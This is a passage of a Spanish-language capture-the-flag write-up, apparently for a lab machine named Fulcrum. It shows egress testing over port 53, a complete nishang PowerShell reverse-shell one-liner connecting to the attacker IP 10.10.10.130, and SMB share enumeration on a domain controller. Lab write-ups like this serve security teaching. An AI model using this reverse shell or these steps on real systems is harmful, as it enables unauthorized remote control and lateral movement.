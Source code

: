 ------------
#### Firewall Bypassing (Playing with Test-NetConnection in PowerShell) - DNS Reverse Shell
Ahora, lo que podriamos intentar es entablarnos una reverse shell a nuestra maquina. Primero tendriamos si no hay reglas de **firewall** implementadas, podriamos verificar si tenemos conectividad con nuestra maquina con el siguiente comando:
```powershell
PS> Invoke-Command -ComputerName file.fulcrum.local -Credential $cred -ScriptBlock { Test-NetConnection -ComputerName 10.10.10.130 -Port 443 }
```

En el output podemos ver el campo **PingSucceeded** esta en **False**, esto quiere decir que no tenemos como tal conectividad a nuestra maquina. Algo curioso es que muchas veces por el puerto **53**(corresponde a DNS) se puede burlar este tipo de restricciones a nivel de firewall. Si ahora nos mandamos la conexión nuestro puerto **53** y nos ponemos en escucha podemos ver si recibimos la conexión:
```powershell
PS> Invoke-Command -ComputerName file.fulcrum.local -Credential $cred -ScriptBlock { Test-NetConnection -ComputerName 10.10.10.130 -Port 53}
```

Con la conexión asegurada, podemos tirar del repositorio de **nishang** para entablarnos una **reverse shell** con [Invoke-PowerShellTcpOneLine.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1), solo tendriamos que modificar la IP y el Puerto:
```powershell
PS> Invoke-Command -ComputerName file.fulcrum.local -Credential $cred -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient('10.10.10.130',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() }
```

----------
#### Authenticating to the DC shares - SYSVOL Enumeration  
Una vez como **BTable** podemos tirar de `PS> Get-SMBShare` para ver los recursos compartidos a nivel de red en el dominio:
```
Get-SMBShare

Name   ScopeName Path Description  
----   --------- ---- -----------  
ADMIN$ *              Remote Admin 
C$     *              Default share
IPC$   *              Remote IPC   
```

Nos podemos autenticar para intentar listar alguno de estos recursos compartidos de la siguiente manera:
```powershell
PS> net use \\dc.fulcrum.local\IPC$ /user:FULCRUM\BTables <password>
```

y ahora podemos ver los recursos con el siguiente comando:
```powershell
PS> net view \\dc.fulcrum.local\
```
